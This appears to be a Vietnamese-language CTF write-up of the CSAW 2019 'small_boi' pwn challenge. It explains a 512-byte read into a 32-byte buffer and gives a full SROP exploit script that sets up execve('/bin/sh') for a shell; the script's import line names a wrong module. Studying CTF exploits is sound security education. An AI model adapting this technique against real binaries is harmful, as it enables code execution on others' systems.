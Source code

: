 # [CSAW-2019] small_boi
<p>Dòng 6, đọc 512 (0x200) byte vào buf có kích thước 32 byte.</p>

![alt text](/thanhlai/post/pwnable/image/post5/image.png)

<p>Cơ chế NX đang bật -> Thực thi shellcode trên stack là không khả thi.</p>

![alt text](/thanhlai/post/pwnable/image/post5/image-4.png)

<p>Liệt kê các gadgets quan trọng thì thấy rằng cả pop rdi và pop rsi đều không có. Tuy nhiên, vẫn còn lệnh syscall, pop rax -> Có thể sử dụng kỹ thuật SROP. Trong đó, pop rax dùng để đưa syscall number 15 (ứng với rt_sigreturn) vào thanh ghi rax, sau đó gọi syscall để kích hoạt cơ chế phục hồi context giả từ stack.</p>

![alt text](/thanhlai/post/pwnable/image/post5/image-1.png)

<p>Thử tìm chuỗi "/bin/sh" thì thấy rằng đã có sẵn nên không cần thêm vào stack nữa -> Vậy đã đủ dữ liệu cho các thanh ghi sau khi thực thi syscall rt_sigreturn</p>

![alt text](/thanhlai/post/pwnable/image/post5/image-2.png)

<p>Script exploit:</p>

```
from pwnable import *

context.binary = './small_boi'
p = process('./small_boi')

pop_rax = 0x000000000040018a
syscall = 0x0000000000400185
binsh_addr = 0x4001ca  

frame = SigreturnFrame()
frame.rax = 59         
frame.rdi = binsh_addr 
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall    


payload = flat(
    b'a' * 40,        
    pop_rax,
    15,                
    syscall,
    bytes(frame),
    b'/bin/sh\x00'      
)

p.sendline(payload)
p.interactive()
```

<p>Chạy script và lấy được shell.</p>

![alt text](/thanhlai/post/pwnable/image/post5/image-3.png)
